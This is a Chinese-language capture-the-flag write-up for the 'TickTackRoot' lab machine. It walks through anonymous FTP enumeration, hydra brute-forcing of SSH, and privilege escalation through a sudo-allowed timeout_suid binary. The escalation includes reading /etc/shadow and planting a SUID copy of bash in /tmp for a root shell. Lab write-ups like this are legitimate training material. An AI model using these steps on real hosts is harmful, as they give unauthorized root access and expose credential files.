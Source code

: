 # TickTackRoot

2025.02.27 https://thehackerslabs.com/ticktackroot/

[video](https://www.bilibili.com/video/BV1Fw9AYmEt8/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 可以匿名登陆，先看。index.html 显示的是 apache 默认页面，login/login.txt 中显示了：

```
rafael
monica
```

像是 2 个用户名。

80 web 上用大字典扫描没扫出什么东西，只好用 hydra 爆破一下 ssh 上面 2 个账号，没爆出来；在爆一下 ftp 用这 2 个账号，还是没爆出来。目前什么都没有。

在看一下 ftp 登陆这里显示了一个 Bienvenido Robin 这里得到了一个 robin 的名字，可能是用户名，再用这个 robin 进行下 ssh 爆破，终于找到了密码 babyblue

先拿到 user flag：

```
robin@TheHackersLabs-Ticktackroot:~$ cat  user.txt
8XG29KLM3PZA1VQR5JYN
```

sudo -l 显示 (ALL) NOPASSWD: /usr/bin/timeout_suid

GTFOBins 中没有现成的利用，看看这个程序的帮助信息，看到可以直接执行命令，拿到最终 flag：

```
/usr/bin/timeout_suid 10 cat /etc/shadow

robin@TheHackersLabs-Ticktackroot:~$ /usr/bin/timeout_suid 10 cp /bin/bash /tmp/rootbash
robin@TheHackersLabs-Ticktackroot:~$ /usr/bin/timeout_suid 10 chmod +xs /tmp/rootbash
robin@TheHackersLabs-Ticktackroot:~$ ls -al /tmp/rootbash
-rwsr-sr-x 1 root root 1446024 feb 27 14:29 /tmp/rootbash
robin@TheHackersLabs-Ticktackroot:~$ /tmp/rootbash -p
rootbash-5.2# cd /root
rootbash-5.2# ls
root.txt
rootbash-5.2# cat root.txt
9BW5V2UJZ4NXDF3Q7CML
```
